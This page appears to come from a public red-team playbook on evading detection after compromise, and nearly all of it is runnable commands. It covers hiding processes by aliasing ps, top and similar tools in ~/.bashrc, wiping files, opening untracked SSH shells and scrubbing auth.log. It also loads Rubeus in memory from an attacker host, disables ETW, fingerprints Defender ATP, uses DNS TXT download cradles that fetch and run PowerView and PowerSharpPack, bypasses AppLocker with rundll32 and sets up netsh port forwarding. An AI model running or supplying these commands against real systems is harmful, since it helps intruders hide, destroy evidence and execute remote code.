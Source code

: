 # 5.2 Situational Awareness

## Table of Contents

- [Process Hiding](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Process-Hiding)
- [Save File Deletion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Save-File-Deletion)
- [Hiding SSH Sessions](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Hiding-SSH-Sessions)
- [Logfile Cleaning](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Logfile-Cleaning)
- [.Net Reflection](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Net-Reflection)
- [Bypassing Event Tracing for Windows (ETW)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Bypassing-Event-Tracing-for-Windows-ETW)
- [Windows Advanced Threat Protection (ATP)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Windows-Advanced-Threat-Protection-ATP)
- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Avoid-Invoke-Expression-IEX-and-Invoke-WebRequest-IWR)
- [LOLBAS](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#LOLBAS)

## Process Hiding

```c
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```

## Save File Deletion

```c
$ shred -z <FILE>
```

Alternatively:

```c
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## Hiding SSH Sessions

```c
$ ssh -o UserKnownHostsFile=/dev/null -T <USER>@<RHOST> 'bash -i'
```
- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed

## Logfile Cleaning

```c
$ cd /dev/shm; grep -v '<RHOST>' /var/log/auth.log > <FILE>.log; cat <FILE>.log > /var/log/auth.log; rm -f <FILE>.log
```

Notice that this modification of the logfile is most likely to be spotted.

## .Net Reflection

```c
PS C:\> $d = (New-Object System.Net.WebClient).DownloadData('http://<LHOST>/Rubeus.exe')
PS C:\> $a = [System.Reflection.Assembly]::Load($d)
PS C:\> [Rubeus.Program]::Main("-h".Split())
```

## Bypassing Event Tracing for Windows (ETW)

```c
C:\> set COMPlus_ETWEnabled=0
```

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```c
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```c
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```c
C:\> tasklist | findstr /i mssense.exe
```

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```c
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```c
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/bypass.png">
</p>

## Concatinate Payloads

```c
PS C:\> powershell . (-Join (Resolve-DnsName -Type txt https://<DOMAIN>).Strings)
```

## LOLBAS

### AppLocker Bypass

`<FILE>.url`:

```c
[internetshortcut]
url=C:\Windows\system32\calc.exe
```

```c
C:\Windows\system32> rundll32 C:\Windows\system32\ieframe.dll,OpenURL C:\<FILE>.url
```

### Port Forwarding with netsh

```c
C:\> netsh interface portproxy add v4tov4 listenaddress=<RHOST> listenport=<RPORT> connectaddress=<LHOST> connectport=<LPORT>
```

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)

### Next

- [6 Command-and-Control](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/6-Command-and-Control/6-Command-and-Control.md)
